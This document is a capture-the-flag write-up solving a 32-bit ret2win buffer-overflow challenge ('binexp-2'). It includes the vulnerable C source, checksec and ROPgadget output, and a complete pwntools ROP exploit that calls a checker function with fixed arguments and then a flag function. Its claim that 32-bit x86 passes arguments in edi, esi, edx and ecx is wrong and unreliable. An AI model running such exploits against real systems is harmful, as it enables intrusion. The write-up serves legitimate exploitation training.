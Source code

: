 # Binexp-2

> **Description:** -
>
> **Remote Instance:** nc 54.255.236.13 9002

### Basic File Checks

Perform basic file checks to understand how the binary was compiled.

```
┌──(kali💀JesusCries)-[~/Desktop]
└─$ file binexp-2 
binexp-2: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, for GNU/Linux 2.6.18, BuildID[sha1]=252bc36fa20771b3a196d141a85c5da2c671263b, not stripped
```

From the command above, some of the major takeaways are:

- ELF File Type.
- 32-bit.
- Least Significant Bit (LSB) executable.
- Functions name not stripped.

We can also perform binary protection checks to get an overall idea on where to start tackling the challenge. `No PIE` indicates that we do not have to worry about Address Randomization when performing a `ret2win` attack.

```
──(kali💀JesusCries)-[~/Desktop]
└─$ checksec --file=binexp-2 
[*] '/home/kali/Desktop/binexp-2'
    Arch:     i386-32-little
    RELRO:    No RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
```

### Static Code Analysis

By looking at the source code, it appears to be a same `ret2win` attack as `binexp-1`, but this time with parameters.

```c
#include <stdio.h>
#include <stdlib.h>
#include <stdbool.h>

bool solve1 = false;

void checker(int check1, int check2) {

	if (check1 == 0xDEADBEEF) {
		if (check2 == 0xCAFEBABE) {
			solve1 = true;
		}
		else {
			puts("Wrong!");
			exit(0);
		}
	}
	else {
		puts("Wrong!");
		exit(0);
	}
}

void flag() {
	char flag[64];

	if (solve1) {
		FILE *f = fopen("flag.txt", "r");
		fgets(flag, 64, f);
		printf("%s", flag);
		fflush(stdout);
	}
	else {
		puts("Wrong!");
	}
}

int main(int argc, char *argv[]) {
	char buf[10];

	puts("Can you pass the checker?");
	gets(buf);
	puts("Welp... Guest not.");
}
```

### ROPGadgets

In order to overwrite parameter values, we have to first clear the registers value responsible for storing the parameter. This is done by using ROPGadgets to pop the registers off the stack.

The calling convention for 64-bit registers is as follows: `rdi` > `rsi` > `rdx` > `rcx` > `r8` > `r9`

Since the binary is 32-bit architecture, the calling convention will be `edi` > `esi` > `edx` > `ecx`

```
┌──(kali💀JesusCries)-[~/Desktop]
└─$ ropgadget binexp-2 | grep "pop edi"
0x08048692 : add esp, 0x1c ; pop ebx ; pop esi ; pop edi ; pop ebp ; ret
0x08048691 : fiadd word ptr [ebx + 0x5e5b1cc4] ; pop edi ; pop ebp ; ret
0x08048690 : jb 0x8048670 ; add esp, 0x1c ; pop ebx ; pop esi ; pop edi ; pop ebp ; ret
0x08048693 : les ebx, ptr [ebx + ebx*2] ; pop esi ; pop edi ; pop ebp ; ret
0x08048695 : pop ebx ; pop esi ; pop edi ; pop ebp ; ret
0x08048697 : pop edi ; pop ebp ; ret
0x08048696 : pop esi ; pop edi ; pop ebp ; ret
0x08048694 : sbb al, 0x5b ; pop esi ; pop edi ; pop ebp ; ret
                                                                                                                                                                                                                 
┌──(kali💀JesusCries)-[~/Desktop]
└─$ ropgadget binexp-2 | grep "pop esi"
0x08048692 : add esp, 0x1c ; pop ebx ; pop esi ; pop edi ; pop ebp ; ret
0x08048690 : jb 0x8048670 ; add esp, 0x1c ; pop ebx ; pop esi ; pop edi ; pop ebp ; ret
0x08048693 : les ebx, ptr [ebx + ebx*2] ; pop esi ; pop edi ; pop ebp ; ret
0x08048695 : pop ebx ; pop esi ; pop edi ; pop ebp ; ret
0x08048696 : pop esi ; pop edi ; pop ebp ; ret
0x08048694 : sbb al, 0x5b ; pop esi ; pop edi ; pop ebp ; ret
```

### Solution

Since we do not have an ideal candidate of ROPGadgets to perform the exploitation manually. We can use the `ropper` class in pwntools to automate the process:

```python
#!/usr/bin/env python3

from pwn import *

# Allows easy swapping betwen local/remote/debug modes
def start(argv=[], *a, **kw):
    if args.GDB:  # Set GDBscript below
        return gdb.debug([exe] + argv, gdbscript=gdbscript, *a, **kw)
    elif args.REMOTE:  # ('server', 'port')
        return remote(sys.argv[1], sys.argv[2], *a, **kw)
    else:  # Run locally
        return process([exe] + argv, *a, **kw)


def find_ip(payload):
    # Launch process and send payload
    p = process(exe)
    p.sendlineafter(b'?', payload)
    # Wait for the process to crash
    p.wait()
    # Print out the address of EIP/RIP at the time of crashing
    ip_offset = cyclic_find(p.corefile.pc)  # x86
    # ip_offset = cyclic_find(p.corefile.read(p.corefile.sp, 4))  # x64
    info('located EIP/RIP offset at {a}'.format(a=ip_offset))
    return ip_offset


# Specify your GDB script here for debugging
gdbscript = '''
init-pwndbg
continue
'''.format(**locals())


# Set up pwntools for the correct architecture
exe = './binexp-2'
# This will automatically get context arch, bits, os etc
elf = context.binary = ELF(exe, checksec=False)
# Enable verbose logging so we can see exactly what is being sent (info/debug)
context.log_level = 'debug'

# ===========================================================
#                    EXPLOIT GOES HERE
# ===========================================================

# Pass in pattern_size, get back EIP/RIP offset
offset = find_ip(cyclic(200))

# Start program
io = start()

# ROP object
rop = ROP(elf)
rop.checker(0xDEADBEEF, 0xCAFEBABE)
rop.flag()

# Build the payload
payload = flat({
    offset: rop.chain()
})

# Send the payload
io.sendlineafter(b'?', payload)

# Get flag
io.interactive()
```

